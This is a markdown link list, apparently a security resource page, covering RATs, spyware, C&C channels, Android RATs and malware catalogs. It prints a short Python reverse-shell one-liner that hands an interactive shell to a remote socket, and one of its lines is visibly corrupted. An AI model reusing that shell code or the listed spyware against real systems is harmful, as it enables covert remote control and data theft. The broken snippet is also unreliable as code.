RAT and other spyware
=====================

-	HTTPS-based Remote Administration Tool (RAT) https://github.com/t3ntman/CrunchRAT
-	outis is a custom Remote Administration Tool (RAT) or something like that. It was build to support various transport methods (like DNS) and platforms (like Powershell). http://www.kitploit.com/2017/09/outis-custom-remote-administration-tool.html https://github.com/SySS-Research/outis
-	Ar3s Python botnet and backdoor https://github.com/coh7eiqu8thaBu/Ares
-	CHAOS Framework allow generate payloads and control remote machines. https://github.com/tiagorlampert/CHAOS
-	Python Reverse Shell in 124 Characters`
	import socket as o,subprocess as u
	s=o.socket()
	s.connect(('0.0.0.0',1337))
	c=http://u.call (["sh","-i"],stdin=s,stdout=s,stderr=s)
	`
-	TeleShadow - Telegram Desktop Session Stealer (Windows) [Teleshadow2- Advanced Telegram Desktop Session Hijacker!](https://github.com/ParsingTeam/TeleShadow2)
-	[Pupy is an opensource, cross-platform (Windows, Linux, OSX, Android) remote administration and post-exploitation tool mainly written in python](https://github.com/n1nj4sec/pupy)

C&C
---

-	[A fully featured backdoor that uses Gmail as a C&C server](https://github.com/byt3bl33d3r/gcat)
-	Fully Featured Backdoor Telegram C&C: BrainDamage https://n0where.net/fully-featured-backdoor-telegram-cc-braindamage/ https://github.com/mehulj94/BrainDamage
-	Tunneling C&C Over DNS: dnscat2. This tool is designed to create a command-and-control (C&C) channel over the DNS protocol, which is an effective tunnel out of almost every network. https://n0where.net/tunneling-cc-over-dns-dnscat2 [GitHub](https://github.com/iagox86/dnscat2)
-	TLS C2 https://gist.github.com/caseysmithrc/a4c4748160ff9c782d8a86723dbc7334
-	Active Directory as a C2 (Command & Control) https://akijosberryblog.wordpress.com/2018/03/17/active-directory-as-a-c2-command-control/
-	Create your own Private Botnet with ProxyDock! https://0x00sec.org/t/create-your-own-private-botnet-with-proxydock/5917
-	[goDoH](https://github.com/sensepost/goDoH) - A DNS-over-HTTPS C2

Android
=======

-	AhMyth Android RAT is an Android Remote Administration Tool - http://www.kitploit.com/2017/07/ahmyth-android-rat-android-remote.html https://github.com/AhMyth/AhMyth-Android-RAT/releases
-	Bypassing Android’s Network Security Configuration https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2017/november/bypassing-androids-network-security-configuration/

Linux
=====

-	[In-Memory-Only ELF Execution (Without tmpfs)](https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html)

References
----------

-	https://developer.android.com/training/articles/security-config.html?hl=en
-	https://ibotpeaches.github.io/Apktool/
-	https://android.googlesource.com/platform/frameworks/base/+/master/core/java/android/security/net/config
-	https://malpedia.caad.fkie.fraunhofer.de/ Malpedia
-	[malware.one is a binary substring searchable malware catalog containing terabytes of malicious code.](https://malware.one/index.php?action=login)
-	APT & CyberCriminal Campaign Collection https://github.com/CyberMonitor/APT_CyberCriminal_Campagin_Collections
